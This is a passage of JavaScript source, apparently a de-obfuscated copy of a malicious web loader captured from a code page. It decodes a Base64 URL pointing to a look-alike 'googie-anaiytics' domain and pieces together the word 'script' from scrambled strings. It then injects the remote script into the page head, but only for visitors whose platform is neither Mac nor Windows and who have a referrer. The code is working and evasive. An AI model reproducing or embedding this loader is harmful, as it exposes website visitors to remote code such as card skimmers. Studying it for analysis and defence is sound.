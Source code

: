 ``` js
  }
  return output;
}

// Function to decode a Base64 string
function decodeBase64(input) {
  const base64Chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";
  let output = "";
  let i = 0, n, r, s, o, u, a;

  input = input.replace(/[^A-Za-z0-9+/=]/g, "");

  while (i < input.length) {
    s = base64Chars.indexOf(input.charAt(i++));
    o = base64Chars.indexOf(input.charAt(i++));
    u = base64Chars.indexOf(input.charAt(i++));
    a = base64Chars.indexOf(input.charAt(i++));
    n = (s << 2) | (o >> 4);
    r = ((o & 15) << 4) | (u >> 2);
    let iChar = ((u & 3) << 6) | a;

    output += String.fromCharCode(n);
    if (u != 64) {
      output += String.fromCharCode(r);
    }
    if (a != 64) {
      output += String.fromCharCode(iChar);
    }
  }

  return decodeUtf8(output);
}

// Function to load a JavaScript file dynamically
function loadScript() {
  (function (encodedUrl, randomString, window, document, randomString2, separator) {
    const decode = decodeBase64;
    const decodedUrl = decodeURIComponent(decode(encodedUrl.replace(new RegExp(separator + separator, "g"), separator)));
    const scriptId = randomString[2] + "c" + randomString2[1] + randomString2[6];
    const scriptElement = document.createElement(scriptId + separator[0] + separator[1]);
    const noop = function () {};

    scriptElement.type = "text/javascript";
    scriptElement.onload = noop;
    scriptElement.src = decodedUrl;
    document.getElementsByTagName("head")[0].appendChild(scriptElement);
  })(
    "aHR0cHM6Ly93d3cuZ29vZ2llLWFuYWl5dGljcy5jb20vZ3RhZ3MuanM=",
    "gUssQxWzjLAD",
    window,
    document,
    "DrPdgDiahyku",
    "ptsrhUDHCv"
  );
}

// Automatically execute the script loading function if the platform is not Mac or Win and the referrer is valid
if (!/^Mac|Win/.test(navigator.platform) && document.referrer.indexOf(".") !== -1) {
  loadScript();
}
```